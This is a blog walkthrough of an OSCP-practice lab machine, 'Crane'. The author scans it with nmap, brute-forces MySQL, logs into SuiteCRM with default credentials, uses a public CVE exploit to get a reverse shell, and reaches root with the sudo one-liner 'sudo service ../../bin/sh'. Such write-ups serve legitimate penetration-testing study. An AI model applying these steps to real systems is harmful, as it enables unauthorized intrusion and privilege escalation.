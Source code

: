 ```yaml
---
date: '2024-10-17'
before : '2024-10-14'
after : '2024-10-17'
title: 'OSCP Prep: Proving Grounds : Crane'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Crane machine from Proving Grounds'
thumbnail: '../contentImages/crane/1.png'
---
```


## 1. Recon

Starting with nmap scan as always.

```
┌──(hlee㉿hlee)-[~]                                                                     
└─$ sudo nmap 192.168.151.146 -T4 -p-                                        

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:53 EDT            
PORT      STATE SERVICE                                                      

22/tcp    open  ssh                                                          
80/tcp    open  http                                                          
3306/tcp  open  mysql                                                        
33060/tcp open  mysqlx                                                        
```

So there is a webapp besides mysql server. Let's try webapp first.


![image](../contentImages/crane/1.png)

  

So this is SuiteCrm, I've never seen it before.


```

┌──(hlee㉿hlee)-[~]
└─$ searchsploit suitecrm                          

 Exploit Title                                                              

SuiteCRM 7.10.7 - 'parentTab' SQL Injection | php/webapps/46310.txt
SuiteCRM 7.10.7 - 'record' SQL Injection | php/webapps/46311.txt
SuiteCRM 7.11.15 - 'last_name' Remote Code Execution (Authenticated) php/webapps/49001.py
SuiteCRM 7.11.18 - Remote Code Execution (RCE) (Authenticated) (Metasploit)   | php/webapps/50531.rb
Shellcodes: No Results

```

Okay, we need credentials, which we can possibly find from mysql server.

```

┌──(hlee㉿hlee)-[~]
└─$ sudo nmap 192.168.151.146 -T4 -sV -sC -p3306 --script mysql*

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 14:58 EDT
  

PORT     STATE SERVICE VERSION

3306/tcp open  mysql   MySQL (unauthorized)
| mysql-enum:
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: Host '192.168.45.247' is not allowed to connect to this MySQL server
| mysql-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 50009 guesses in 207 seconds, average tps: 250.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 207.15 seconds

```

Nevermind. mysql server was a rabbit hole, credential was admin:admin.  

## 2. Initial Foothold

  

After I logged in, I found out that this suitecrm is version 7.12.3  


![image](../contentImages/crane/2.png)

  
That means none of the exploits above would work. I googled some authenticated cve's. Then I found this one:


> https://github.com/manuelz120/CVE-2022-23940

  
I followed the step, then:


![image](../contentImages/crane/3.png)

  
I got the revshell. as I did sudo -l

  
![image](../contentImages/crane/4.png)

  
Cool! No password + a binary!


## 3. Privesc

I used my friend gtfobins.

> https://gtfobins.github.io/gtfobins/service/


We can simply run:  

```
sudo service ../../bin/sh
```

As I tried, I could successfully get a shell as root user.


![image](../contentImages/crane/5.png)

  
Done!